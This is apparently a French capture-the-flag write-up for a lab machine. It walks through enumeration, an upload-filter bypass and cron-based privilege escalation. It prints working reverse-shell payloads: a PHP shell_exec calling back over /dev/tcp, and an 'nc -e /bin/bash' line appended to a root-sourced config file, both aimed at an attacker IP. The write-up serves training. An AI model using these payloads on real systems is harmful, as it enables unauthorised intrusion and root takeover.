**Description :**
On Linux systems, a "cronjob" is a scheduling service used to automatically run commands or scripts at specific times.  
  
It is recommended to practice exploiting a vulnerability in a web application to get a reverse shell from the machine, and to practice privilege escalation attacks that result from misconfiguring a scheduled task on the machine.

**Catégorie : Web**

Étape :

- **Enumération** 

**Scan Nmap**

Commande : 
```
Nmap -sC -sV quenovia.hv 
```



On a deux  ports ouverts: le port 80 pour le service HTTP et le port 3306 pour le servie Mysql qui dont l'acces est refusé. 

**Scan de répertoire cachée avec gobuster** 

Commande : 
```
gobuster dir -u http://quenovia.hv/ -w /usr/share/wordlists/dirb/common.txt 
```



Intéressant on a un endpoint qui contient les fichiers uploadés 

Accéder a la page web : 


On constate qu'on peu effectuer une demande de visa . Cliquez dessus pour faire une demande. 

On constate ainsi qu'on peut uploader un fichier. 
Inspecter pour voire le type de fichier autorisé a être uploadé : CTRL+Q


Comme on peu le voire dans la partie accept , c'est juste les images qui sont acceptés. 

Modifier pour mettre sur * pour qu'il accepte tout type de fichier 



Créer un fichier .php et ensuite l'uploader 

Payload : 

`<?php`
`shell_exec("bash -c 'bash -i >& /dev/tcp/10.8.96.179/1234 0>&1'");`
`?>`

Uploader ensuite le fichier. 



Comme on peut le voire notre demande a été acceptée avec succes 

- **Exploitation** 
Mettre en écoute netcat

commande : 

```
nc -lnvp 1234
```
Allez ensuite dans l'endpoint /uploads pour déclancher votre fichier php uploadé 


Et ensuite retourner sur votre terminal. Vous obtiendrez votre shell 



- **Corriger le shell** 
Commande : 

Sur la cible : 
**en python :** 

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 
```

```
Script -qc /bin/bash /dev/null
```

Faite ensuite **CRTL+Z** pour suspendre le shell
Sur votre machine :

```sh
stty raw -echo && fg
```

- **Escalade de priviledge :** 

Vérifier les fichiers avec des priviledges root : 

```
find / -user root -perm 4000 -exec ls -ldb {} ;\ 2>/dev/null
```



Hmmm rien d'intéressant : 

Inspecter le fichier #/etc/crontab pour voire les tâches qui s'exécutent automatiquement 

Commande : 
```
cat /ect/crontab 
```



Boom on a un fichier du nom de **/usr/local/bin/clean_logs.sh** qui s'exécute a chaque instant 

Voire comment fonctionne le fichier  **/usr/local/bin/clean_logs.sh**

```
cat  **/usr/local/bin/clean_logs.sh**

```


On constate que le fichier **/usr/local/bin/clean_logs.sh** utilise la commande source pour exécuter un autre fichier. 
**NB:**
La commande source sous linux exécute un script shell directement dans l'environnement du shell courant, sans créer de nouveau processus (sous-shell), ce qui permet aux variables d'environnement, fonctions et alias définis dans le script d'être immédiatement disponibles dans votre session actuelle, comme pour recharger des configurations (ex: `.bashrc`). C'est différent de `./script.sh` qui crée un nouveau shell et n'affecte pas l'environnement parent. 

Dans notre cas , le le fichier **/usr/local/bin/clean_logs.sh** exécute la commande : **source /var/www/config.conf** 
Sachant que le fichier config.conf contient le chemin vers le log a nettoyer **LOG_PATH="/var/log/apache2/other"**

- Vérifions ainsi les permissions de #/var/www/config.conf 



Boom on peut modifier le fichier config.conf 
Ainsi il s'agit de la clé de notre Privesc.  On va créer un payload pour faire un reverse shell de facon a ce que lorsqu'il sera exe´cuté, on obtienne un shell root 

```
echo "nc -e /bin/bash 10.8.96.179 4444" >> /var/www/config.conf
```
Il faut être d'abord en écoute 

Commande  : 
```
nc -lnvp 4444 
```



